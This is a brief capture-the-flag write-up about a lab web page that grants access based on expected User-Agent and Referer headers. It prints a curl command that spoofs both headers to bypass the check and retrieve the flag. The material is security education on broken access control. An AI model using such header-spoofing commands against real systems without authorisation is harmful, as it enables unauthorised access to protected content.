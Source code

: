 # HTTP Header Manipulation

## Vulnerability
Client-Side Access Control via Header Checks

## Target
`http://10.14.58.57/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f`

## Mechanism
- The page checked for two specific HTTP headers:
  1. **User-Agent**: Expected `ft_bornToSec`
  2. **Referer**: Expected `https://www.nsa.gov/`
- Server granted access only if both headers matched expected values

## Exploit
```bash
curl -A "ft_bornToSec" -e "https://www.nsa.gov/" http://10.14.58.57/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
```
- `-A` flag set the User-Agent header
- `-e` flag set the Referer header

## Impact
Bypassed server-side access control by spoofing HTTP headers, revealing the flag.

## Severity
Medium (Broken Access Control)